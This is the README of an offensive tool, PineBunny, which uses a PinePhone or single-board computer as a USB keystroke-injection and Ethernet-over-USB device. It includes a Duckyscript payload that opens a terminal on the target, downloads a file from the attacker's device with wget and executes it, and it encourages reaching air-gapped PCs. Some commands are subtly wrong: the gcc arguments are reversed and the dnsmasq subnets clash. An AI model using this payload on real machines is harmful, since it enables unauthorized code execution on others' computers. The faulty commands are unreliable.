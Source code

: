# PineBunny

# An attempt to implement something similar to what a Bash Bunny does on the PinePhone (Pro)

This is a recollection of scripts to enable the virtual /dev/hidg0 device on USBGadget enabled kernels and perform keystroke injection attacks emulating a keyboard. This tool is mostly useful in penetration testing assesments and engagements and the ideal devices to use this with would be any kind of Raspberry Pi model/any single board linux computer for that matter, and the PinePhone (Pro) or any other linux phone with a compatible kernel.
Even though those devices are the best ones to use, the tool should work on any device as long as it has USBGadget enabled.


# ¿How to check if my kernel is compatible?

To see if your kernel was compiled with USBGadget enabled, you can typically check the file "/proc/config.gz" to see your current kernel configuration.
Do `gunzip -c /proc/config.gz | grep CONFIG_USB_GADGET=` and check if it ends in `y`. If not you'll have to recompile the kernel yourself and enable it; which is beyond the scope of this repository.


# Installation

To install the scripts clone the repository first and cd into it, and then simply compile usleep and hid-gadget-test:
`gcc -o hid-gadget-test.c hid-gadget-test`
`gcc -o usleep.c usleep`
Then, you can simply remove the .c files and copy the binaries to /usr/bin.
Keep in mind you'll need a different 'badusb' binary for each keyboard layout, so copy the one for your keyboard like so:
`sudo cp badusb-[YOUR_LAYOUT] /usr/bin/badusb`

Only en_US and es_ES are supported right now, I'll work on more layouts when I get the time.


# Usage

The badusb script uses conventional Duckyscript, and its usage is:

`sudo usbarsenal` (you need to enable /dev/hidg0 first, tho usbarsenal also has options for enabling the ecm module of USB Gadget and Mass Storage, so you'll have ethernet over USB, too. Just keep in mind that your target won't get an IP address automatically assigned without a proper dhcp server running. I personally like to use dnsmasq)
`sudo badusb duckypayload.txt`


# Example payload using HID + Ethernet

`usbarsenal` can enable Ethernet over USB, and that can be used for different kinds of attacks. The only thing you have to keep in mind is that you need to manually assign an IP address to the usb0 interface, as well as a netmask and you also need a proper dhcp and dns server (like dnsmasq) so that the target machine gets assigned an IP address automatically.

Let's say we have a file we want the target to download and execute, a file hosted on the PinePhone itself (like `python -m http.server` for example).
We'll need to prepare the usb0 interface and a dhcp server so the computer gets an IP assigned: `sudo usbarsenal`, `sudo ifconfig usb0 up 10.66.0.1 netmask 255.255.255.0`. Then, the dhcp server with this `dnsmasq.conf` configuration:

```
interface=usb0
dhcp-range=10.0.0.2, 10.66.0.30, 255.255.255.0, 12h
dhcp-option=3, 10.0.0.1
dhcp-option=6, 10.0.0.1 
server=8.8.8.8
log-queries
log-dhcp 
listen-address=127.0.0.1
```
`sudo dnsmasq -C dnsmasq.conf -d` We leave that running and we also leave the web server running: `python -m http.server`. Now it should work. Our example payload file looks like this, and it is aimed at a regular linux desktop:

```
DELAY 2000
ALT F2
DELAY 500
STRING xfce4-terminal
ENTER
DELAY 1000
STRING wget http://10.66.0.1:8000/hello
ENTER
DELAY 400
STRING chmod +x ./hello
ENTER
DELAY 100
STRING ./hello
ENTER
```
`sudo badusb payload.txt`

Remember, ethernet over USB can give you physical network access to a computer, which means you could hack an airgapped PC too!
Moreover, you are not forced to use a Duckyscript payload, you could just ignore that and launch a nmap scan physically connected over USB!
The options are endless...
